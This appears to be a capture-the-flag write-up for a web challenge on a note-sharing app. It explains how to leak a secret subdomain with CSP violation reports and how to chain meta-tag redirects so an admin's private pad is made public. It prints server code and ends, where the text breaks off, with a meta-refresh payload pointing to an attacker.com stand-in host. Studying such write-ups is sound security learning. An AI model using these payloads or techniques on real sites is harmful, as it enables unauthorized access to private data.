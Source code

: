 The initial plan is to use csp violations to leak the subdomain. So to do that we have to first redirect the bot to our attacker's website. Since ``.setHTML()`` allows meta tags we can use a meta redirect to our attacker controlled website .

## CSP violation leak



If we put ``https://xn--pd-viaaa.space/p/latest `` in an iframe and then add a csp with   ``frame-src https://xn--pd-viaaa.space/p/latest `` it will trigger a csp violation , because ``https://xn--pd-viaaa.space/p/latest `` redirects to ``unique_id.xn--pd-viaaa.space`` . 

So using this technique we can leak the unique_id .


## CSRF to make the note public 
After getting the unique id there is still one more problem to solve. The admins pad is not public, so we can't access it directly due to this check.

```js 
if(!pad.isPublic && req.session.username != pad.username){
        req.flash('danger', 'Not allowed to access this non-public päääd.')
        return res.redirect(`https://${process.env.DOMAIN}`)
    }
```

The code to make the note public is as follows.

```js 
if(req.session.username == pad.username){
        if(req.query.edit=='isPublic'){
            pad.isPublic = !pad.isPublic
            await pad.save()
            return res.redirect(`https://${id}.${process.env.DOMAIN}`)
        }
        if(req.query.edit=='isTemp'){
            pad.createdAt = pad.createdAt ? undefined : new Date()
            await pad.save()
            return res.redirect(`https://${id}.${process.env.DOMAIN}`)
        }
    }
```

So we just have to make the admin send a get request using ?edit=isPublic to make the note public. But unfortunately, the session cookie is having ``sameSite: 'strict'`` . So doing a csrf to make the note public won't work. 

To overcome this we can run the bot twice, the first time to leak the unique_id and the next time with a pad that has a meta redirect to ``unique_id.xn--pd-viaaa.space?edit=isPublic`` to make the note public.

## Final Payloads

``First pad``
```html
<!-- redirect to attacker site -->
<meta http-equiv="refresh" content="1; url=https://attacker.com/attacker.html">
```
